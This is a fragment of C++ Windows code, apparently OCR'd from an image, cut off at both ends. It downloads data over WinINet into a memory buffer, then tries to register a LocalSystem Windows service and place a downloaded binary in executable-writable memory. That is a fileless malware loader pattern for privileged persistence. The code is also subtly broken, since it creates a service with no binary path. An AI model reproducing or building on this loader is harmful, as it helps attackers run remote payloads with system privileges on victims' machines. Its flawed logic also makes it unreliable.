 ```cpp
    *bufferSize = 0;
    *buffer = nullptr;

    do {
        *buffer = (unsigned char*)realloc(*buffer, *bufferSize + bufferSizeIncrement);
        if (!*buffer) {
            InternetCloseHandle(hConnect);
            InternetCloseHandle(hInternet);
            return false;
        }

        if (!InternetReadFile(hConnect, *buffer + *bufferSize, bufferSizeIncrement, &bytesRead)) {
            free(*buffer);
            *buffer = nullptr;
            InternetCloseHandle(hConnect);
            InternetCloseHandle(hInternet);
            return false;
        }

        *bufferSize += bytesRead;
        totalBytesRead += bytesRead;

    } while (bytesRead > 0);

    InternetCloseHandle(hConnect);
    InternetCloseHandle(hInternet);
    return totalBytesRead > 0;
}

// Function to create and start a service using the binary stored in memory
bool CreateAndStartServiceFromMemory(const char* serviceName, unsigned char* binaryBuffer, size_t bufferSize) {
    SC_HANDLE schSCManager = OpenSCManager(NULL, NULL, SC_MANAGER_CREATE_SERVICE);
    if (!schSCManager) return false;

    SC_HANDLE schService = CreateServiceA(
        schSCManager,              // SCM database
        serviceName,               // name of service
        serviceName,               // service name to display
        SERVICE_ALL_ACCESS,        // desired access
        SERVICE_WIN32_OWN_PROCESS, // service type
        SERVICE_DEMAND_START,      // start type
        SERVICE_ERROR_NORMAL,      // error control type
        NULL,                      // path to service's binary
        NULL,                      // no load ordering group
        NULL,                      // no tag identifier
        NULL,                      // no dependencies
        NULL,                      // LocalSystem account
        NULL);                     // no password

    if (!schService) {
        CloseServiceHandle(schSCManager);
        return false;
    }

    // Write the binary to memory
    LPVOID pBinaryPath = VirtualAllocEx(GetCurrentProcess(), NULL, bufferSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!pBinaryPath) {
        CloseServiceHandle(schService);
        CloseServiceHandle(schSCManager);
        return false;
    }
```